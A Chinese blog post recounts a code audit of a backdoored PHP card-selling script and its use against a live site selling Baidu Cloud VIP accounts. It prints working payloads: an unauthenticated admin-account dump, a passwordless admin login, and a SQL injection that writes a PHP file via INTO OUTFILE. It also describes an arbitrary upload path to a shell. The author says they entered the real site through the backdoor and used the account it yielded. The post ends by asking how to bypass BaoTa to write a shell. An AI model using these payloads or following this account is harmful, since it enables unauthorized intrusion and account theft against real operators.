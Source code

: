 ```yaml
---
title: "记一次由百度云会员引起的渗透"
date: 2019-04-03T13:18:55+08:00
lastmod: 2019-04-03T13:18:55+08:00
draft: false
tags: ['php','sql','vip']
categories: ['代码审计','渗透测试']
comment: true
---
```


百度云盘真的恶心，不开会员10k/s。

<!--more-->

# 前言

前天找了点域渗透的环境和资料，都是百度云盘存储的，一个镜像十几个g，下不下来，发现网上有卖百度云VIP账号的，都是一些发卡网，刚好自己最近在学代码审计，就想着下载一套源码自己看看能不能审出漏洞。没想到还真看出来了点东西。

# 开搞

目标站点`xx.com`扫出了`readme.txt`，是**企业版PHP自动发卡源码免授权优化版**

![](https://y4er.com/img/uploads/20190509165269.jpg)

看到这免授权优化版我就知道有戏，很可能存在后门。网上找了一套

![](https://y4er.com/img/uploads/20190509162439.jpg)

目录结构和目标站点一样，应该就是这套了。

本地搭建，然后源代码扔到seay先跑着，我先大概看下架构

`index.php`入口

![](https://y4er.com/img/uploads/20190509168352.jpg)

典型的mvc架构

![](https://y4er.com/img/uploads/20190509168398.jpg)

伪静态重写URL

![](https://y4er.com/img/uploads/20190509167137.jpg)

代码审计这方面我是新手，所以我的目标是找找sql注入、未授权访问、上传点以及越权，当然考虑到是免授权优化版，我还可以找找后门：文件遍历或者代码执行

## [后门?]文件遍历

`/bom.php`的`checkdir()`函数

![](https://y4er.com/img/uploads/20190509169865.jpg)

![](https://y4er.com/img/uploads/20190509163282.jpg)

递归遍历当前目录下的所有文件。

这个文件应该是去除文件的bom头，不知道算不算后门。

## 过滤方式

`\includes\libs\Functions.php`

![](https://y4er.com/img/uploads/20190509168122.jpg)

全局`makeSafe()`函数过滤，强转数字，`addslashes()`和`mysql_real_escape_string()`转义字符串，`strip_tags`去除html标签

`\includes\libs\Mysql.php`

MySQL使用UTF8编码![](https://y4er.com/img/uploads/20190509169572.jpg)

我发现的SQL语句变量全部使用单引号进行包裹，寄希望于seay，暂放。

## [后门]获取管理员账户

`\admin\adminInfo.php`没有鉴权

![](https://y4er.com/img/uploads/20190509165310.jpg)

```php
function getmethod(){
	$ob = new Admin_Model();
	$items = $ob->getData(1, 10, "WHERE id <> -1");	
	$index = 0;
	echo "<table border='1' style=''>";
	foreach($items as $item){
		echo "<tr>";
		$index ++;
		if($index == 1){		
			foreach($item as $key => $val){
				if(preg_match("/^\d*$/",$key)){
					continue;
				}
				echo "<th>$key</th>";
			}
			echo "</tr>";
			echo "<tr>";
		}
		foreach($item as $key => $val){
			if(preg_match("/^\d*$/",$key)){
				continue;
			}
			echo "<td>$val</td>";	
		}
		echo "</tr>";
	}
	echo "</table>";
}
```

payload：`/admin/adminInfo.php?action=get`

## [后门]无需密码登录后台

还是`\admin\adminInfo.php`

```php
function infomethod(){
	$ob = new Admin_Model();
	$u = $ob->getOneData($_GET['id']);
	$_SESSION['login_adminname']=$u['username'];
	$_SESSION['login_adminid']=$u['id'];
	$_SESSION['login_adminutype']=$u['utype'];
	$_SESSION['login_adminlimit']=explode('|',$u['adminlimit']);
}
```

payload:先访问`/admin/adminInfo.php?action=info&id=1`然后访问`/admin/`

## [后门]SQL注入

还是`\admin\adminInfo.php`的`infomethod()`函数

```php
$u = $ob->getOneData($_GET['id']);
```

id直接代入数据库查询，可尝试`into outfile`

payload

```
http://go.go/admin/admininfo.php?action=info&id=-1 union select 1,2,3,4,5,6,7,8,9,10,'<?php phpinfo()?>' into outfile 'E:/WWW/faka/1.php'
```

## 后台任意文件上传

`/admin/set.php`未对文件后缀校验

![](https://y4er.com/img/uploads/20190509169338.jpg)

![](https://y4er.com/img/uploads/20190509161320.jpg)

## 漏洞利用

文件遍历拿到后台=>`adminInfo.php`拿到管理员账户或直接登陆=>任意文件上传拿shell

# 实战

后门进入后台，上传没有写文件权限，sql注入outfile写文件被宝塔拦截，尝试多种方法无果，放弃，毕竟账号已经有了，下东西去。

![](https://y4er.com/img/uploads/20190509162833.jpg)

ps:我没想到一个卖百度云账号的流水一天也能7k

# 总结

网站是死的，思路是活的。渗透测试的精髓是指哪打哪，希望我可以做到。**另外如果有师傅知道怎么绕过宝塔写shell的请pm我，感激不尽。**有在学代码审计的同学也欢迎找我交流哦！